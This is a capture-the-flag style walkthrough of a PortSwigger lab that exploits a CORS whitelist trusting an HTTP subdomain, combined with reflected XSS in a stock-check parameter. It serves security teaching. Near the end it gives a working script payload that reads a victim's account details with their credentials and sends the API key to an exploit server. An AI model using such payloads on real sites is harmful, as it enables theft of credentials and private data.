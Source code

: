 ## Lab Description: CORS vulnerability with trusted insecure protocols

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c09efc2a-1f88-440f-83d0-a118a237eed2)


## Solution:

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```
The application responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

The victim user makes any plain HTTP request.

The attacker injects a redirection to:
```
http://trusted-subdomain.vulnerable-website.com
```
The victim's browser follows the redirect.

The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:
```
https://vulnerable-website.com
```
The victim's browser makes the CORS request, including the origin:
```
http://trusted-subdomain.vulnerable-website.com
```
The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.

The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.


When we give Origin: evil.com or Origin: null , we don't see any ACAO header in the response.

But when we give Origin : http://subdomain.lab-domain.com, we get the Access-Control-Allow-Origin in the response. [Note that we gave http instead of https]


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/62f7fec3-7e2e-4cc9-8373-8b29570acce4)

So if we provide subdoamin of the website along with http insecure protocol, we are able to bypass the whitelist.

Finding an XSS -
In real life cases, if an attacker performs a MITM attack , then he can exploit the CORS configuration to compromise the victim's interaction with the application. But in this lab we can't perform MITM attacks.

So the other way around to steal Administrator's API keys is by exploiting an XSS vulnearbility.

When we click on checkstock, we are taken to a new tab to display the result.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a04ce8ee-af17-45b7-801b-9e3bf82c85ca)

If we enter a simple alert() script in productID parameter, we get a pop up which confirms that it is vulnerable to XSS.


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/019d0a65-bc71-4bdd-b36d-4114b4098598)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ccb7aa69-bccf-433e-9cd0-4f5b700e6c43)

Go to exploit server and enter the following XSS payload to steal the API key of admin.

      <script> document.location="http://stock.0a720027042deb43808f7670001f0067.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a720027042deb43808f7670001f0067.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ae200ca0459eb4d800375f301f000eb.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>

Deliver the exploit to victim & view AccessLog , there we will find the API key of admin in the URL portion.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8035fc90-a56c-46e5-a32c-ab5f32eae072)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5ffef2aa-01fe-4b8f-b112-358ba6fead6c)
